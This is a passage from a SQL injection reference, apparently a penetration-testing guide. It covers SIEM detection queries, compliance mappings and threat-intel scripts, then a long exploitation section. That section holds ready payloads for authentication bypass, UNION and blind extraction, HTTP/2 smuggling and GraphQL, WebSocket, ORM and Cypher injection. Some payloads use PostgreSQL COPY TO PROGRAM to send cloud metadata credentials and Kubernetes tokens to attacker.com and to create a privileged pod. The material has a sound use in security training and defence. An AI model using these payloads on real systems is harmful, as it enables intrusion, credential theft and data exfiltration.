            "request.uri": ".*(sleep|waitfor|benchmark|pg_sleep).*"
          }
        }
      ]
    }
  },
  "aggs": {
    "response_time_stats": {
      "stats": {
        "field": "response_time_ms"
      }
    }
  }
}
```

**CloudWatch Insights (AWS RDS):**

```
fields @timestamp, @message
| filter @message like /(?i)(UNION|SELECT.*FROM|INSERT INTO|UPDATE.*SET|DELETE FROM)/
| filter @message like /(%27|'|--|\\/\\*)/
| stats count() by bin(5m)
```

**Advanced CloudWatch Insights:**

```
# PostgreSQL slow query log analysis for time-based blind SQLi
fields @timestamp, @message
| filter @message like /duration:/ and @message like /ms/
| parse @message /duration: (?<duration_ms>\d+\.\d+) ms/
| filter duration_ms > 5000
| filter @message like /(?i)(pg_sleep|pg_read_file|COPY.*PROGRAM)/
| stats count(), avg(duration_ms), max(duration_ms) by bin(5m)

# RDS Enhanced Monitoring - connection spike detection (SQLi automation)
fields @timestamp, numVCPUs, cpuUsedPc, activeConnections
| filter activeConnections > 100
| stats avg(activeConnections), max(activeConnections) by bin(1m)

# Aurora PostgreSQL - query fingerprint analysis
fields @timestamp, @message
| filter @message like /statement:/
| parse @message /statement: (?<query>.*)/
| stats count() by query
| sort count desc
| limit 20

# RDS MySQL slow query log with user tracking
fields @timestamp, @message
| filter @message like /Query_time:/
| parse @message /# User@Host: (?<user>\w+)\[.*?\] @ (?<host>.*?) \[.*?\]/
| parse @message /Query_time: (?<query_time>[\d.]+)/
| filter query_time > 5
| stats count(), avg(query_time) by user, host
```

**Azure Sentinel KQL (Kusto Query Language):**

```kql
// Advanced SQLi detection in Azure SQL logs
AzureDiagnostics
| where ResourceProvider == "MICROSOFT.SQL"
| where Category == "SQLSecurityAuditEvents"
| where statement_s has_any ("UNION", "SELECT", "INSERT", "UPDATE", "DELETE", "DROP", "CREATE", "ALTER", "EXEC", "EXECUTE")
| where statement_s has_any ("'", "--", "/*", "*/", ";")
| extend sqli_indicators = extract_all(@"(?i)(union\s+select|sleep\(|waitfor\s+delay|xp_cmdshell|sp_oacreate)", statement_s)
| where array_length(sqli_indicators) > 0
| summarize
    attack_count = count(),
    unique_statements = dcount(statement_s),
    attack_patterns = make_set(statement_s, 5)
  by
    client_ip_s,
    server_principal_name_s,
    database_name_s,
    bin(TimeGenerated, 5m)
| where attack_count > 3
| order by attack_count desc

// Time-based blind SQLi detection (Azure SQL)
AzureDiagnostics
| where ResourceProvider == "MICROSOFT.SQL"
| where duration_milliseconds_d > 5000
| where statement_s has_any ("WAITFOR DELAY", "BENCHMARK", "SLEEP")
| project
    TimeGenerated,
    client_ip_s,
    server_principal_name_s,
    statement_s,
    duration_milliseconds_d
| order by duration_milliseconds_d desc
```

**Google Chronicle YARA-L Detection Rules:**

```yaml
rule sqli_detection {
  meta:
    author = "Security Team"
    description = "Detects SQL injection attempts in HTTP requests"
    severity = "HIGH"

  events:
    $request.metadata.event_type = "NETWORK_HTTP"
    (
      $request.network.http.parsed_uri.path = /.*(?i)(union|select|insert|update|delete|drop|create|alter|exec|execute).*/
      or
      $request.network.http.parsed_uri.query_params = /.*('|"|--|;|\/\*|\*\/|xp_|sp_).*/
      or
      $request.network.http.post_data = /.*(?i)(union\s+select|sleep\(|waitfor\s+delay).*/
    )

  match:
    $source_ip = $request.principal.ip
    $target_ip = $request.target.ip

  outcome:
    $risk_score = max(75)

  condition:
    $request
}
```

### HTTP/2 & HTTP/3 Considerations

- **HPACK/QPACK Header Compression**: May alter detection patterns

  ```
  # HTTP/2 header compression can obfuscate payloads
  :path: /api/user?id=1%20UNION%20SELECT
  # Appears different after decompression
  ```

- **Request Smuggling to SQLi**:

  ```http
  POST /api/user HTTP/2
  Content-Length: 100
  Transfer-Encoding: chunked

  0

  POST /api/admin HTTP/1.1
  Content-Length: 50

  id=1' OR '1'='1
  ```

- **HTTP/3 QUIC Protocol**: Test SQLi over different protocols
  ```bash
  # Use curl with HTTP/3 support
  curl --http3 "https://target.com/api?id=1' UNION SELECT--"
  ```

**Extended HTTP/2 & HTTP/3 Attack Vectors:**

> [!WARNING]
> HTTP/2 and HTTP/3 introduce new attack surfaces that traditional WAFs may not detect. Always test modern protocol-specific vectors.

**HTTP/2 Header Injection:**
```http
# Pseudo-header manipulation
:method: GET
:path: /api/user
:authority: target.com
x-custom-header: id=1' UNION SELECT password FROM users--

# WAF bypass via header ordering
:method: GET
:path: /api/user?innocent=value
:authority: target.com
x-forwarded-for: 127.0.0.1
x-real-ip: 127.0.0.1' UNION SELECT--
```

**HTTP/2 Server Push Exploitation:**
```http
# Server push with malicious parameters
PUSH_PROMISE
:method: GET
:path: /api/user?id=1' OR 1=1--
:authority: target.com
```

**HTTP/3 QUIC 0-RTT Replay Attack:**
```bash
# Capture 0-RTT data
tshark -i eth0 -Y "quic" -w capture.pcap

# Replay with SQLi payload (if 0-RTT enabled)
curl --http3 --http3-0rtt "https://target.com/api?id=1' UNION SELECT--"
```

**HTTP/2 Request Smuggling Techniques:**
```http
# CL.TE (Content-Length vs Transfer-Encoding) Smuggling
POST / HTTP/2
Host: target.com
Content-Length: 4
Transfer-Encoding: chunked

12
id=1' OR '1'='1
0

# TE.CL Smuggling
POST / HTTP/2
Host: target.com
Transfer-Encoding: chunked
Content-Length: 4

0

POST /api/user HTTP/1.1
Host: target.com
Content-Length: 20

id=1' UNION SELECT--
```

**HTTP/2 Pseudo-Header Abuse:**
```http
# Duplicate pseudo-headers (some proxies only validate first)
:method: GET
:path: /api/user?id=1
:authority: target.com
:path: /api/admin?id=1' OR 1=1--

# Case sensitivity exploitation
:METHOD: GET
:PATH: /api/user?id=1' UNION SELECT--
```

**Testing HTTP/2 SQLi with curl:**
```bash
# HTTP/2 with explicit version
curl --http2 "https://target.com/api?id=1' UNION SELECT--"

# HTTP/2 prior knowledge (skip upgrade)
curl --http2-prior-knowledge "http://target.com/api?id=1' UNION SELECT--"

# HTTP/2 with custom headers
curl --http2 -H "X-Custom: value' OR '1'='1" "https://target.com/api"

# HTTP/3 (requires curl 7.66+)
curl --http3 "https://target.com/api?id=1' UNION SELECT--"

# HTTP/3 with QUIC version negotiation
curl --http3 --http3-only "https://target.com/api?id=1' UNION SELECT--"
```

**Burp Suite HTTP/2 Testing:**
```
1. Enable HTTP/2 in Burp:
   - Project Options → HTTP → HTTP/2
   - Check "Use HTTP/2"

2. Test pseudo-header injection:
   - Repeater → Right-click request → "Change request method to HTTP/2"
   - Add custom pseudo-headers
   - Send malicious payloads

3. HTTP/2 Smuggler extension:
   - BApp Store → "HTTP Request Smuggler"
   - Run smuggling attack scanner
```

### Compliance & Regulatory Context

- **PCI DSS 4.0**: Requirement 6.2.4 mandates protection against injection attacks
- **OWASP ASVS 4.0**: V5.3.4 requires parameterized queries or stored procedures
- **ISO 27001:2022**: A.8.22 web filtering control
- **NIST 800-53**: SI-10 Information Input Validation
- **SOC 2 Type II**: Common Criteria CC6.1 (Logical Access Controls)

**Extended Compliance Requirements:**

| Standard | Requirement | SQLi Specific Controls | Audit Evidence |
|----------|------------|------------------------|----------------|
| **PCI DSS 4.0** | 6.2.4 | Secure coding practices, input validation, parameterized queries | Code review reports, SAST scan results, penetration test findings |
| **OWASP ASVS 4.0** | V5.3.4 | Parameterized queries, stored procedures, ORM usage | Source code review, dependency analysis, security testing results |
| **NIST 800-53 Rev 5** | SI-10 | Input validation at all trust boundaries | Input validation test cases, validation logic documentation |
| **ISO 27001:2022** | A.8.22 | Web filtering, WAF deployment | WAF logs, rule configuration, blocked attack reports |
| **HIPAA Security Rule** | 164.308(a)(5)(ii)(A) | Security awareness training on SQLi | Training records, secure coding guidelines |
| **GDPR** | Article 32 | Technical measures to ensure data security | Security assessment reports, incident response logs |
| **SOC 2 Type II** | CC6.1 | Logical access controls, secure development | System description, control testing results |
| **CIS Controls v8** | 16.11 | Application software security testing | DAST/SAST reports, vulnerability management records |
| **FedRAMP** | SI-10 | Input validation mechanisms | Security assessment package (SAP), continuous monitoring |

**PCI DSS 4.0 Specific Requirements:**

```
Requirement 6.2.4: Software engineering techniques or other methods are defined and in use by software-development personnel to prevent or mitigate common software attacks and related vulnerabilities.

SQLi Prevention Checklist:
□ Parameterized queries used for all database interactions
□ Input validation implemented at all entry points
□ Output encoding applied to prevent injection
□ Stored procedures used where applicable
□ Least privilege database access configured
□ Security code review performed before production
□ Automated security testing (SAST/DAST) integrated in CI/CD
□ Secure coding training completed by all developers
□ Third-party component vulnerability scanning enabled
□ WAF rules configured to detect and block SQLi attempts

Evidence Required:
- Source code samples demonstrating parameterized queries
- SAST scan reports showing no high/critical SQLi findings
- Penetration test reports with SQLi testing results
- Training completion certificates for secure coding
- WAF logs showing blocked SQLi attempts
```

**OWASP ASVS 4.0 V5.3.4:**

```
V5.3.4: Verify that parameterized queries, stored procedures, or Object-Relational Mapping (ORM) libraries are used to prevent SQL injection.

Testing Procedures:
1. Code Review:
   - Review all database interaction code
   - Verify parameterized query usage
   - Check for string concatenation in SQL
   - Validate ORM configuration

2. Dynamic Testing:
   - Test all input parameters for SQLi
   - Verify error handling doesn't leak info
   - Test blind SQLi scenarios
   - Validate WAF protection

3. Configuration Review:
   - Verify database least privilege
   - Check error logging configuration
   - Review database firewall rules
   - Validate security group restrictions
```

**Compliance Automation:**

```yaml
# GitHub Actions compliance check
name: PCI-DSS SQLi Compliance Check
on: [push, pull_request]

jobs:
  security-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2

      - name: SAST Scan for SQLi
        uses: github/super-linter@v4
        env:
          VALIDATE_SQL: true

      - name: Dependency Check
        run: |
          npm audit --audit-level=high
          # Fail if SQLi CVEs found in dependencies

      - name: SQLi Pattern Detection
        run: |
          grep -r "executeQuery.*\+" src/ && exit 1 || true
          grep -r "query.*\${" src/ && exit 1 || true

      - name: Generate Compliance Report
        run: |
          echo "PCI DSS 6.2.4 Compliance Check" > report.txt
          echo "SAST Scan: PASSED" >> report.txt
          echo "Dependency Check: PASSED" >> report.txt
          echo "Code Pattern Check: PASSED" >> report.txt

      - name: Upload Compliance Evidence
        uses: actions/upload-artifact@v2
        with:
          name: compliance-report
          path: report.txt
```

### Threat Intelligence Integration

- **CISA KEV Catalog**: Monitor for actively exploited SQL injection CVEs
- **MITRE ATT&CK**: T1190 (Exploit Public-Facing Application)
- **exploit-db.com**: Track recent SQLi PoC releases
- **GitHub Security Advisories**: Monitor ORM/framework CVEs
  ```bash
  # Automated monitoring
  gh api /advisories --jq '.[] | select(.summary | contains("SQL injection"))'
  ```

**Extended Threat Intelligence Sources:**

```bash
# CISA KEV (Known Exploited Vulnerabilities) Catalog
curl -s https://www.cisa.gov/sites/default/files/feeds/known_exploited_vulnerabilities.json \
  | jq '.vulnerabilities[] | select(.shortDescription | contains("SQL")) | {cveID, vendorProject, product, dateAdded}'

# NVD (National Vulnerability Database) SQLi CVE search
curl -s "https://services.nvd.nist.gov/rest/json/cves/2.0?keywordSearch=SQL%20injection&resultsPerPage=20" \
  | jq '.vulnerabilities[] | {cveId: .cve.id, description: .cve.descriptions[0].value, cvssScore: .cve.metrics.cvssMetricV31[0].cvssData.baseScore}'

# GitHub Security Advisories (ORM vulnerabilities)
gh api graphql -f query='
{
  securityVulnerabilities(first: 20, ecosystem: NPM, classifications: [GENERAL, MALWARE, VULNERABILITY]) {
    nodes {
      advisory {
        summary
        description
        severity
        publishedAt
      }
      vulnerableVersionRange
      package {
        name
      }
    }
  }
}' | jq '.data.securityVulnerabilities.nodes[] | select(.advisory.summary | contains("SQL"))'

# Exploit-DB recent SQLi exploits
curl -s "https://www.exploit-db.com/search?type=papers&q=sql%20injection" \
  | grep -oP 'href="/exploits/\K[0-9]+' | head -10 \
  | xargs -I {} curl -s "https://www.exploit-db.com/exploits/{}" > recent_sqli_exploits.txt

# VulnDB (commercial, requires API key)
curl -s -H "X-VulnDB-API-Key: $API_KEY" \
  "https://vulndb.cyberriskanalytics.com/api/v1/vulnerabilities?product=mysql&vulnerability_type=sql_injection"
```

**MITRE ATT&CK Mapping:**

```
Technique: T1190 - Exploit Public-Facing Application
Sub-technique: SQL Injection

Detection:
- Monitor for suspicious SQL keywords in HTTP requests
- Detect anomalous database query patterns
- Track error messages indicating SQL syntax issues
- Observe timing anomalies (time-based blind SQLi)
- Monitor outbound connections from database servers (OOB exfiltration)

Data Sources:
- Application logs (DS0015)
- Network traffic (DS0029)
- Database logs (DS0015)

Related Techniques:
- T1059.007: Command and Scripting Interpreter (SQL)
- T1213: Data from Information Repositories
- T1530: Data from Cloud Storage Object
```

**Automated Threat Intel Integration:**

```python
#!/usr/bin/env python3
# threat_intel_sqli_monitor.py
import requests
import json
from datetime import datetime

def check_cisa_kev():
    """Check CISA KEV catalog for SQL injection CVEs"""
    url = "https://www.cisa.gov/sites/default/files/feeds/known_exploited_vulnerabilities.json"
    response = requests.get(url)
    vulns = response.json()['vulnerabilities']

    sqli_vulns = [v for v in vulns if 'SQL' in v.get('shortDescription', '').upper()]
    return sqli_vulns

def check_nvd_cves(days=30):
    """Check NVD for recent SQL injection CVEs"""
    url = f"https://services.nvd.nist.gov/rest/json/cves/2.0?keywordSearch=SQL%20injection&resultsPerPage=50"
    response = requests.get(url)
    return response.json()

def check_orm_advisories():
    """Check GitHub for ORM SQL injection advisories"""
    query = '''
    {
      securityAdvisories(first: 50, orderBy: {field: PUBLISHED_AT, direction: DESC}) {
        nodes {
          summary
          description
          severity
          publishedAt
          references {
            url
          }
        }
      }
    }
    '''
    # Requires GitHub token
    headers = {"Authorization": f"Bearer {GITHUB_TOKEN}"}
    response = requests.post(
        "https://api.github.com/graphql",
        json={"query": query},
        headers=headers
    )
    return response.json()

def send_alert(vulns):
    """Send alert via Slack/Teams/Email"""
    # Implement your alerting logic
    pass

if __name__ == "__main__":
    print("[*] Checking CISA KEV Catalog...")
    kev_vulns = check_cisa_kev()

    print("[*] Checking NVD...")
    nvd_vulns = check_nvd_cves()

    print("[*] Checking GitHub Advisories...")
    gh_advisories = check_orm_advisories()

    # Aggregate and prioritize
    critical_vulns = [v for v in kev_vulns if 'SQL' in str(v)]

    if critical_vulns:
        print(f"[!] Found {len(critical_vulns)} critical SQL injection vulnerabilities")
        send_alert(critical_vulns)
```

**Real-Time Threat Feed Integration:**

```yaml
# Splunk threat intelligence input
[threatlist://sqli_iocs]
url = https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/SQLi/quick-SQLi.txt
type = indicator
fields = payload

# Elastic Security detection rule
- rule:
    name: "SQLi Attack Pattern (Threat Intel)"
    description: "Detects SQL injection payloads from threat intelligence feeds"
    index:
      - logs-*
    query: |
      event.category:web and
      http.request.body:* and
      threat.indicator.type:"url" and
      threat.indicator.description:"SQL injection"
    risk_score: 75
    severity: high
```

> [!NOTE]
> Integrate threat intelligence into your SIEM and WAF to automatically block known SQLi attack patterns. Update threat feeds daily to stay current with emerging attack vectors.

## Practical Exploitation Examples

> [!WARNING]
> The following examples are for authorized security testing only. Use in controlled lab environments or with explicit written permission. Unauthorized testing is illegal.

### Example 1: Authentication Bypass

**Target:** Login form with username/password
**Vulnerability:** Unsafe SQL query construction

```sql
-- Vulnerable backend query
SELECT * FROM users WHERE username='$username' AND password='$password'

-- Exploitation
Username: admin' OR '1'='1'--
Password: (anything)

-- Resulting query
SELECT * FROM users WHERE username='admin' OR '1'='1'--' AND password='anything'
-- Returns admin user, bypassing password check
```

### Example 2: UNION-based Data Extraction

**Target:** Product search endpoint
**Vulnerability:** Injectable search parameter

```sql
-- Step 1: Determine number of columns
https://target.com/search?q=laptop' UNION SELECT NULL,NULL,NULL--

-- Step 2: Identify string columns
https://target.com/search?q=laptop' UNION SELECT 'a','b','c'--

-- Step 3: Extract data
https://target.com/search?q=laptop' UNION SELECT username,password,email FROM users--

-- Step 4: Extract specific user
https://target.com/search?q=laptop' UNION SELECT username,password,email FROM users WHERE username='admin'--
```

### Example 3: Time-based Blind SQLi

**Target:** API endpoint returning only 200/404
**Vulnerability:** No error messages, blind injection

```sql
-- Step 1: Confirm vulnerability (5 second delay)
/api/user?id=1' AND SLEEP(5)--

-- Step 2: Extract data length
/api/user?id=1' AND IF(LENGTH((SELECT password FROM users WHERE id=1))>10, SLEEP(5), 0)--

-- Step 3: Extract first character
/api/user?id=1' AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE id=1),1,1))>100, SLEEP(5), 0)--

-- Step 4: Automate with binary search
# Use sqlmap or custom script for full extraction
```

### Example 4: Second-Order SQL Injection

**Target:** User registration + profile page
**Vulnerability:** Registration sanitizes, profile doesn't

```sql
-- Step 1: Register user with malicious payload
Username: admin'--
Email: test@test.com
Password: password123

-- Step 2: Visit profile page (triggers vulnerable query)
-- Backend query: SELECT * FROM users WHERE username='admin'--'
-- Comment truncates rest of query, returns admin data
```

### Example 5: GraphQL SQL Injection

**Target:** GraphQL API with filter support
**Vulnerability:** Unsafe filter → SQL translation

```graphql
# Step 1: Normal query
{
  users(filter: {name: "admin"}) {
    id
    email
  }
}

# Step 2: Injection payload
{
  users(filter: {name: "admin' OR '1'='1"}) {
    id
    email
    password
  }
}

# Step 3: Union-based extraction
{
  users(filter: {name: "x' UNION SELECT id,password,email FROM admin_users--"}) {
    id
    email
  }
}
```

### Example 6: WebSocket SQL Injection

**Target:** Real-time search via WebSocket
**Vulnerability:** Unsanitized WebSocket message payload

```javascript
// Step 1: Connect to WebSocket
const ws = new WebSocket("wss://target.com/search");

// Step 2: Test for SQLi
ws.send(JSON.stringify({
  action: "search",
  query: "test' OR '1'='1'--"
}));

// Step 3: Time-based blind extraction
for (let i = 1; i <= 32; i++) {
  const payload = {
    action: "search",
    query: `test' AND IF(ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),${i},1))>${charCode}, SLEEP(2), 0)--`
  };
  const start = Date.now();
  ws.send(JSON.stringify(payload));
  // Measure response time
}
```

### Example 7: Cloud Metadata Access via SQLi (PostgreSQL)

**Target:** Cloud-hosted PostgreSQL instance
**Vulnerability:** COPY TO PROGRAM enabled

```sql
-- Step 1: Test command execution
' ; COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/test'--

-- Step 2: Extract AWS metadata (IMDSv1)
' ; COPY (SELECT '') TO PROGRAM 'curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ > /tmp/roles'--

-- Step 3: Extract credentials
' ; COPY (SELECT '') TO PROGRAM 'curl http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2-Role-Name > /tmp/creds'--

-- Step 4: Exfiltrate via DNS (if egress blocked)
' ; COPY (SELECT '') TO PROGRAM 'curl http://169.254.169.254/latest/meta-data/iam/security-credentials/Role | base64 | xargs -I {} nslookup {}.attacker.com'--
```

### Example 8: Container Escape via SQLi (Kubernetes)

**Target:** PostgreSQL in Kubernetes pod
**Vulnerability:** Service account token access

```sql
-- Step 1: Read service account token
' ; COPY (SELECT '') TO PROGRAM 'cat /var/run/secrets/kubernetes.io/serviceaccount/token > /tmp/token'--

-- Step 2: Access Kubernetes API
' ; COPY (SELECT '') TO PROGRAM '
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token);
curl -k -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces/default/pods > /tmp/pods.json
'--

-- Step 3: Exfiltrate pod list
' ; COPY (SELECT '') TO PROGRAM 'curl -X POST -d @/tmp/pods.json http://attacker.com/exfil'--

-- Step 4: Create privileged pod (if RBAC allows)
' ; COPY (SELECT '') TO PROGRAM '
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token);
curl -k -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -X POST \
  -d "{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"name\":\"evil-pod\"},\"spec\":{\"containers\":[{\"name\":\"shell\",\"image\":\"busybox\",\"command\":[\"/bin/sh\"],\"stdin\":true,\"tty\":true}],\"hostPID\":true,\"hostNetwork\":true}}" \
  https://kubernetes.default.svc/api/v1/namespaces/default/pods
'--
```

### Example 9: ORM Injection (Sequelize)

**Target:** Node.js API using Sequelize ORM
**Vulnerability:** Unsafe literal usage

```javascript
// Vulnerable code
app.get('/api/users', async (req, res) => {
  const users = await User.findAll({
    where: sequelize.literal(`name = '${req.query.name}'`)
  });
  res.json(users);
});

// Exploitation
// Step 1: Test for vulnerability
GET /api/users?name=admin' OR '1'='1

// Step 2: Union-based extraction
GET /api/users?name=x' UNION SELECT id,password,email,created_at FROM admins--

// Step 3: Time-based blind
GET /api/users?name=admin' AND (SELECT CASE WHEN (SELECT COUNT(*) FROM admins) > 5 THEN pg_sleep(5) ELSE pg_sleep(0) END)--

// Safe remediation
app.get('/api/users', async (req, res) => {
  const users = await User.findAll({
    where: { name: req.query.name } // Auto-parameterized
  });
  res.json(users);
});
```

### Example 10: Neo4j Cypher Injection

**Target:** Neo4j graph database API
**Vulnerability:** Dynamic Cypher query construction

```cypher
// Vulnerable backend
MATCH (u:User) WHERE u.name = '$input' RETURN u

// Step 1: Test for injection
admin' OR 1=1 //

// Resulting query
MATCH (u:User) WHERE u.name = 'admin' OR 1=1 // RETURN u

// Step 2: Data extraction
admin' OR 1=1 RETURN u.password //

// Step 3: Blind injection (boolean-based)
admin' AND length(u.password) > 8 //

// Step 4: LOAD CSV SSRF/XXE
' OR 1=1 LOAD CSV FROM 'file:///etc/passwd' AS line RETURN line //

// Safe remediation (parameterized query)
MATCH (u:User) WHERE u.name = $input RETURN u
// Pass input as parameter: {input: 'admin'}
```

> [!TIP]
> Always document your exploitation steps, screenshots, and payloads during security testing. This evidence is crucial for remediation and compliance audits.

## Additional Resources

**Training Platforms:**
- PortSwigger Web Security Academy (SQLi Labs)
- HackTheBox (Database Exploitation)
- TryHackMe (SQL Injection Room)
- PentesterLab (SQL Injection Exercises)

**Reference Materials:**
- OWASP SQL Injection Prevention Cheat Sheet
- PayloadsAllTheThings (SQL Injection)
- HackTricks (SQL Injection)
- PortSwigger SQL Injection Cheat Sheet

**Books:**
- "The Web Application Hacker's Handbook" by Dafydd Stuttard
- "SQL Injection Attacks and Defense" by Justin Clarke
- "Black Hat Python" by Justin Seitz (automation)

**Tools & Scripts:**
- SQLMap: https://github.com/sqlmapproject/sqlmap
- Ghauri: https://github.com/r0oth3x49/ghauri
- GraphQLmap: https://github.com/swisskyrepo/GraphQLmap
- NoSQLMap: https://github.com/codingo/NoSQLMap

---

*Last Updated: 2025-01-07*
*Document Version: 2.0 (Enhanced)*
